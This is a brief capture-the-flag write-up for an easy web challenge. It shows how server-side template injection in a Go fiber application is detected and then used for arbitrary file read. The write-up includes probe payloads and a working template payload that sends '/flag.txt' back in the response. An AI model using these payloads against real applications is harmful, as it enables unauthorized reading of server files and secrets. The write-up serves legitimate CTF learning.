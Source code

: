 # web-SevereTortureTo{{Creator}}

# Difficuty

easy

# Details

There is a golang application that is vulnerable to SSTI. You can check it by doing `{{.}}`

# Solve

First discover its gofiber

`{{printf '%#v' .}}`

After that, you can find by yourself a way to get arbitrary file read (did this and felt like a dumbass after finding out the following), or search in google `Golang SSTI`, which will result in [this post](https://payatu.com/blog/ssti-in-golang/) that explains you how to get arbitrary read.

```
{{ .Request.Response.SendFile "/flag.txt" }} {{ .Request.Response.Body }}
```
